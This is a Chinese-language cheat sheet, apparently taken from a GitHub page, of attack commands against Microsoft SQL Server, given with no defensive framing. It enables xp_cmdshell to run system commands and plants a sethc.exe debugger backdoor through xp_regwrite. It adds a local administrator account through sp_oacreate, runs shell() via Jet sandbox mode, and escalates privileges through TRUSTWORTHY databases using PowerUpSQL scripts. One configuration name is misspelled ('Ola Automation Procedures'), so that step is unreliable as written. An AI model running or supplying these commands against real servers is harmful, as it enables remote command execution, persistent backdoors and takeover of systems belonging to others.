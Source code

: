   #### 开启xp_cmdshell
  	查询状态
  	>select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell' 存在返回1
	EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
	exec sp_configure 'xp_cmdshell',1;reconfigure;
	exec master.dbo.xp_cmdshell 'ipconfig'
	exec master..xp_cmdshell 'whoami'
  ##### xp_regwrite
	xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe','debugger','reg_sz','c:\windows\system32\taskmgr.exe'
  ##### xp_dirtree
	execute master..xp_dirtree 'c:' //列出所有c:\文件和目录,子目录 
	execute master..xp_dirtree 'c:',1 //只列c:\文件夹 
	execute master..xp_dirtree 'c:',1,1 //列c:\文件夹加文件 
  ##### sp_oacreate
  	查询状态
	select count(*) from master.dbo.sysobjects where xtype='x' and name='SP_OACREATE' 存在返回1
	exec sp_configure 'show advanced options', 1;RECONFIGURE WITH OVERRIDE;
	exec sp_configure 'Ola Automation Procedures' , 1;RECONFIGURE WITH OVERRIDE;
	执行命令无回显
	declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net user 123 123 /add>c:\\1.txt'
	declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c net localgroup administrators 123/add'
	删除文件
	declare @result int
	declare @fso_token int
	exec sp_oacreate 'scripting.filesystemobject', @fso_token out
	exec sp_oamethod @fso_token,'deletefile',null,'c:\1.txt'
	exec sp_oadestroy @fso_token
	复制文件
	declare @o int
	exec sp_oacreate 'scripting.filesystemobject',@o out
	exec sp_oamethod @o,'copyfile',null,'c:\1.txt','c:\2.txt'
	移动文件
	declare @o int
	exec sp_oacreate 'scripting.filesystemobject',@o out
	exec sp_oamethod @o,'movefile',null,'c:\1.txt','c:\2.txt'
  ##### 沙盒执行
	开启沙盒：
	>exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1
	执行：
	>select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
  ##### PowerupSQL
  	>Get-SQLServerLinkCrawl -Username sa -Password Password@ 1 -Instance WIN-P83OS778EQK\SQLEXPRESS -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;')"
  #### 滥用trustworthy权限提升
  	查询当前用户trustworthy状态，trustworthy的值为 1，表示已激活。
	>select name,is_trustworthy_on from sys.databases
	也可使用PowerupSQL查询
	>Import-Module .\PowerUpSQL.ps1
	>Invoke-SQLAuditPrivTrustworthy -Username name -Password Password@1 -Instance WIN-P83OS778EQK\SQLEXPRESS -Verbose
	提权
	>Import-Module .\Invoke-SqlServer-Escalate-Dbowner.psm1
	>Invoke-SqlServer-Escalate-DbOwner -SqlUser name -SqlPass Password@1 -SqlServerInstance WIN-P83OS778EQK\SQLEXPRESS
	或使用msf来提权